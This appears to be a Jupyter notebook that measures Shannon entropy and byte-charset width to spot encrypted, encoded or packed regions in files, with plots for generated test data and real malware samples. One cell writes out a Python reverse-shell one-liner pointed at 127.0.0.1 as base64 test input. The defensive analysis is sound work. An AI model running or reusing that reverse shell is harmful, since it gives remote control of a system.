In [ ]:
# Create some random data in multiple forms!
import random
import string
import base64
import struct
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

plaintext = ""
for i in range(1024*64):
        plaintext += random.choice(string.ascii_letters)

with open('plaintext.txt','w') as f:
    f.write(plaintext)

with open('raw.txt','wb') as f:
    f.write(os.urandom(1024*64))

with open('base64.txt','wb') as f: # just a generic python revshell, not real 
    b64 = b"""export RHOST="127.0.0.1";export RPORT=8080;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'"""
    b64 = b64.rjust(4096)
    b64 = base64.encodebytes(b64)
    f.write(b64)

with open('aes.txt','wb') as f:
    key = b'CryptographicKey'
    cipher = AES.new(key, AES.MODE_EAX)
    ct_bytes = cipher.encrypt(pad(bytes(plaintext,'utf-8'), AES.block_size))    
    f.write(ct_bytes)

# excessively long function to generate semi-realistic PE malware w/ 2 encrypted payloads and a highly random data section
def generate_synthetic_malware(filepath,total_size=64*1024,num_encrypted_blocks=2,block_size_range=(2048, 8192),seed=None):

    def fake_pe_header(size=512):
        """MZ + DOS stub + minimal PE signature, rest is structured noise"""
        header = bytearray(size)
        header[0:2] = b'MZ'                          # DOS magic
        struct.pack_into('<H', header, 0x3C, 0x40)   # PE offset pointer
        header[0x40:0x44] = b'PE\x00\x00'            # PE signature
        # fill rest with low-entropy structured bytes (repeated patterns)
        for i in range(0x44, size):
            header[i] = (i * 3 + 0x41) % 128
        return bytes(header)

    def fake_code_section(size):
        """
        Mimics x86 bytecode: structured, repetitive, entropy ~4.5-5.5
        Uses a weighted distribution skewed toward common opcode bytes
        """
        common_opcodes = [
            0x55, 0x89, 0x8B, 0x83, 0xE8, 0xFF, 0x74, 0x75,
            0x50, 0x51, 0x52, 0x53, 0x5D, 0xC3, 0x90, 0x00
        ]
        weights = [8, 8, 7, 6, 5, 5, 4, 4, 3, 3, 3, 3, 3, 4, 2, 6]
        return bytes(random.choices(common_opcodes, weights=weights, k=size))

    def fake_encrypted_block(size):
        """Truly uniform random bytes — AES ciphertext-like, entropy ~7.99"""
        return os.urandom(size)

    def fake_zero_padding(size):
        """Section alignment padding, entropy ~0"""
        return b'\x00' * size

    def fake_data_section(size):
        """Strings, imports, config — moderate entropy ~3.5-5.0"""
        charset = (
            list(range(0x20, 0x7E)) * 6 +   # printable ASCII (weighted up)
            list(range(0x00, 0x20)) * 2 +   # control chars
            list(range(0x80, 0xFF)) * 1     # high bytes (sparse)
        )
        return bytes(random.choices(charset, k=size))

    encrypted_offsets = []
    layout = []
    cursor = 0

    header = fake_pe_header(512)
    layout.append(('header', header))
    cursor += len(header)

    code_size = total_size // 4
    layout.append(('code', fake_code_section(code_size)))
    cursor += code_size

    data_size = total_size // 8
    layout.append(('data', fake_data_section(data_size)))
    cursor += data_size

    remaining = total_size - cursor
    for i in range(num_encrypted_blocks):
        # padding before encrypted block
        pad_size = random.randint(256, 1024)
        pad_size = min(pad_size, remaining // (num_encrypted_blocks - i + 1))
        layout.append(('padding', fake_zero_padding(pad_size)))
        cursor += pad_size
        remaining -= pad_size

        # encrypted block
        enc_size = random.randint(*block_size_range)
        enc_size = min(enc_size, remaining // (num_encrypted_blocks - i + 1))
        encrypted_offsets.append((cursor, cursor + enc_size))
        layout.append(('encrypted', fake_encrypted_block(enc_size)))
        cursor += enc_size
        remaining -= enc_size

    if remaining > 0:
        layout.append(('code', fake_code_section(remaining)))

    with open(filepath, 'wb') as f:
        for _, chunk in layout:
            f.write(chunk)

    print(f"Generated: {filepath}  ({cursor} bytes)")
    print(f"Layout sections:")
    offset = 0
    for name, chunk in layout:
        print(f"  [{offset:>8} - {offset+len(chunk):>8}]  {name:<12}  ({len(chunk)} bytes)")
        offset += len(chunk)
    print(f"Encrypted block offsets: {encrypted_offsets}")
    return encrypted_offsets

generate_synthetic_malware('synth_malware')

Generated: synth_malware  (35539 bytes)
Layout sections:
  [       0 -      512]  header        (512 bytes)
  [     512 -    16896]  code          (16384 bytes)
  [   16896 -    25088]  data          (8192 bytes)
  [   25088 -    25419]  padding       (331 bytes)
  [   25419 -    27751]  encrypted     (2332 bytes)
  [   27751 -    28597]  padding       (846 bytes)
  [   28597 -    35539]  encrypted     (6942 bytes)
  [   35539 -    65536]  code          (29997 bytes)
Encrypted block offsets: [(25419, 27751), (28597, 35539)]


[(25419, 27751), (28597, 35539)]

In [ ]:
import math

def entropy(data):
    """
    Implements the actual shannon entropy calculation
    H(X) = -∑[P(xi) * log(P(xi))]
    """


In [ ]:
    if not data:
        return 0.0

    counts = {}
    for c in data:
        counts[c] = counts.get(c,0) + 1

    total = len(data)

    return -sum(
        (freq / total) * math.log2(freq / total)
        for freq in counts.values()
    )

def sliding_entropy(filepath, window=1024, step=64):
    with open(filepath, "rb") as f:
        data = f.read()

    return [
        entropy(data[i:i + window])
        for i in range(0, len(data) - window + 1, step)
    ]

def block_entropy(filepath, block_size=1024):
    with open(filepath, "rb") as f:
        data = f.read()
    
    scores = []
    l = len(data)
    for i in range(0, l, block_size):
        if (l - i) > (block_size // 2):
            scores.append(entropy(data[i:i + block_size]))
        else:
            scores.append(entropy(data[i-(block_size - (l - i)):i+block_size]))

    return scores

def file_entropy(filepath):
    with open(filepath,"rb") as f:
        data = f.read()
    
    return entropy(data)

def charset_width(filepath, block_size=1024):
    with open(filepath, 'rb') as f:
        data = f.read()
    results = []
    for i in range(0, len(data), block_size):
        block = data[i:i + block_size]
        results.append(
            len(set(block))
        )
    return results

def sliding_charset_width(filepath, window=1024, step=64):
    with open(filepath, 'rb') as f:
        data = f.read()
    return [
        len(set(data[i:i + window]))
        for i in range(0, len(data) - window + 1, step)
    ]

# print("Plain:",sliding_entropy('plaintext.txt',1024))
# print("Completely random:",block_entropy('raw.txt',1024))
# print("Encrypted:",sliding_entropy('aes.txt',1024))
# print("This file:",sliding_entropy('entropyProject.ipynb',1024))





In [273]:
import matplotlib.pyplot as plt

def expected_distinct(window):
    # Birthday Problem equation...
    return 256 * (1 - ((256 - 1) / 256) ** window)


def plot_entropy(filepath, window=1024, step=None, flags="",zoom=False):
    if window is not None:
        if step is not None:
            scores  = sliding_entropy(filepath, window, step)
            charset = sliding_charset_width(filepath, window, step)
            offsets = [i * step for i in range(len(scores))]   # stride is step
        else:
            scores  = block_entropy(filepath, window)
            charset = charset_width(filepath, window)
            offsets = [i * window for i in range(len(scores))] # stride is window
    else:
        print(file_entropy(filepath))
        return

    padding  = 0.3
    data_min = min(scores)
    data_max = max(scores)
    spread   = data_max - data_min or 0.5
    e_distinct = expected_distinct(window)

    _, ax1 = plt.subplots(figsize=(14, 4))
    ax2 = ax1.twinx()

    ax1.fill_between(offsets, scores, alpha=0.3, color='steelblue')
    ax1.plot(offsets, scores, linewidth=0.8, color='steelblue', label='Entropy')
    ax1.axhline(7.5, color='red', linestyle='--', linewidth=0.8, label='Entropy threshold')
    ax1.set_ylabel("Shannon entropy (bits)", color='steelblue')
    if zoom:
        ax1.set_ylim(data_min - spread * padding, data_max + spread * padding)
    else:
        ax1.set_ylim(0,8)

    ax2.plot(offsets, charset, linewidth=0.8, color='darkorange',
             alpha=0.7, label='Charset width')
    if "b64"in flags:
        ax2.axhline(65, color='green', linestyle=':', linewidth=0.8, label='Base64 max width (65)')
    if "hex" in flags:
        ax2.axhline(16, color='green', linestyle=':', linewidth=0.8, label='ASCII Hex (16)')
    if "rand" in flags:
        ax2.axhline(e_distinct, color='blue', linestyle=':', linewidth=0.8, label=f'Expected random ({e_distinct:.0f})')
    ax2.set_ylabel("Distinct bytes used", color='darkorange')
    ax2.set_ylim(0, 256)

    lines1, labels1 = ax1.get_legend_handles_labels()
    lines2, labels2 = ax2.get_legend_handles_labels()
    ax1.legend(lines1 + lines2, labels1 + labels2, loc='upper right', fontsize=8)

    ax1.set_xlabel("File offset (bytes)")
    ax1.set_title(f"{"Sliding" if step else "Block"} Entropy + charset width — {filepath}")
    plt.grid(True, linestyle='--', alpha=0.4)
    plt.tight_layout()
    plt.show()

plot_entropy('plaintext.txt',1024,128)
plot_entropy('odyssey.txt',1024,128)
# plot_entropy('raw.txt',512,128,"rand")
# plot_entropy('synth_malware',512,128)
# plot_entropy('entropyProject.py',512,128)

# plot_entropy('/bin/cat',512,128)
# plot_entropy('/bin/base64',512,64)
# plot_entropy('5f2118495bbb74f0946f1476465d717ec5b6f35bf629fd3423f785479fe61202.sh',512,128)
# plot_entropy('5f2118495bbb74f0946f1476465d717ec5b6f35bf629fd3423f785479fe61202.zip',512,128)
# plot_entropy('dcba5de81731c4767d4cbad95f26d2c5c2aef885367f74942feca23863df0cb4.exe',512,128)
# plot_entropy('3b5fed474c7ca7daf87d755878652eff49f3758e2787552346f48789ad6a6681.elf',512,128)



In [270]:
plot_entropy('base64_real',1024,128,'b64')



In [268]:
plot_entropy('aes.txt',1024,128,flags="rand",zoom=True)









In [275]:
plot_entropy('shell.sh',1024,128,"b64+hex") # payload from mirai
plot_entropy('zipped.zip',1024,128,zoom=True) # zip file
plot_entropy('blob.exe',1024,128,"rand") # PE w/ encrypted payload
plot_entropy('packed.elf',1024,128,zoom=True) # Packed ELF file